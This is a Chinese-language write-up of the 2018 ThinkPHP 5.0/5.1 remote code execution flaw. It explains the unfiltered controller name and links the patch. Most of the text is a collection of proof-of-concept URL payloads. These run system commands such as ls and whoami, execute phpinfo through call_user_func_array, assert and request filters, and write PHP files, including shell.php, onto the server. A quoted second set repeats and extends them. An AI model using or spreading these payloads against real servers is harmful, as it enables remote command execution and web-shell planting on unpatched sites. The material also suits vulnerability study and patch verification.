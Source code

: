 # ThinkPHP-命令执行漏洞

ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。
该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

- 影响版本：
ThinkPHP 5.x (v5.0.23及v5.1.31以下版本)

Thinkphp v5.0.x补丁地址: https://github.com/top-think/framework/commit/b797d72352e6b4eb0e11b6bc2a2ef25907b7756f


---------------------

- 漏洞产生：

```php
$controller       = strip_tags($result[1] ?: $this->rule->getConfig('default_controller'));
```
在修复之前程序未对控制器进行过滤，导致攻击者可以通过引入\符号来调用任意类方法。

-----------------------
- 漏洞利用POC

- **执行系统命令查看当前目录下文件**
方法一：
```exp
url/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20-l
```
方法二：
```exp
url/public/index.php?s=/index/\think\request/cache&key=ls%20-l|system
```

- **执行phpinfo**
方法一：
```exp
url/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20'phpinfo();'
```
方法二：
```exp
url/public/index.php?s=/index/\think\request/cache&key=1|phpinfo
```
![tp.png][2]

- **写入info.php文件**
方法一：
```exp
url/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20%27<?php%20phpinfo();?>%27%20>%20info.php
```
方法二：
```exp
url/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=%3C?php%20phpinfo();?%3E
```

----------------------

- 漏洞环境源码：https://github.com/vulnspy/thinkphp-5.1.29

--------------------

# 以下为引用文

1.远程命令执行exp:

```exp
url/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2.远程代码执行

- 执行代码phpinfo()
```exp
url/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
``` 

- 5.1.x版本执行phpinfo()
```exp
url/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert
``` 

- 5.1.x版本
```exp
url/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

- 5.0.x版本
```exp
url/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```

3.写shell

```exp
url/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>
```
```exp
url/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php phpinfo();?>" >>2.php
```
